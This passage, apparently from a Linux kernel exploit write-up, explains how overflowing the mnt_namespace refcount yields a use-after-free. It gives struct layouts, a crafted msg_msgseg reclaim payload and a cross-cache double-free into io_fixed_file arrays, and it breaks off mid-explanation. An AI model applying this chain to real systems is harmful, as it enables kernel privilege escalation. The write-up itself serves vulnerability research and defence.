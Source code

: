 This means unprivileged users cannot use BPF_MAP_FREEZE, effectively blocking the exploit path used in LTS instances.

### mnt_namespace Refcount Overflow
We target the struct mnt_namespace object, specifically the .ns.count field in its embedded struct ns_common:

```c
struct ns_common {
	atomic_long_t              stashed;   /*     0     8 */
	const struct proc_ns_operations *ops; /*     8     8 */
	unsigned int               inum;      /*    16     4 */
	refcount_t                 count;     /*    20     4 */
};

struct mnt_namespace {
	struct ns_common           ns;                   /*     0    24 */
	struct mount              *root;                 /*    24     8 */
	struct list_head           list;                 /*    32    16 */
	spinlock_t                 ns_lock;              /*    48     4 */
	/* XXX 4-byte hole */
	struct user_namespace     *user_ns;              /*    56     8 */
	struct ucounts            *ucounts;              /*    64     8 */
	u64                        seq;                  /*    72     8 */
	wait_queue_head_t          poll;                 /*    80    24 */
	u64                        event;                /*   104     8 */
	unsigned int               mounts;               /*   112     4 */
	unsigned int               pending_mounts;       /*   116     4 */
};
```

### Refcount Overflow
By continuously incrementing count by 0x10000 (1 << 16) each time, we can eventually overflow the refcount. This results in a use-after-free condition on struct mnt_namespace.

### Step-by-Step Exploit Chain
Trigger UAF by overflowing the .count refcount field.

Reclaim the freed `mnt_namespace` as a `struct msg_msgseg` with the following payload:

```c
(struct mnt_namespace){
    .ns.count = 1,
    .ucounts = init_ucounts,
}
```

Pass to free_mnt_ns and free again, cross-cache from kmalloc-cg-128 to reclaim again as an `io_fixed_file` array under kmalloc-128 slab:

```c
bool io_alloc_file_tables(struct io_file_table *table, unsigned nr_files) {
    table->files = kvcalloc(nr_files, sizeof(table->files[0]), GFP_KERNEL);
}
```
Layout of files array:
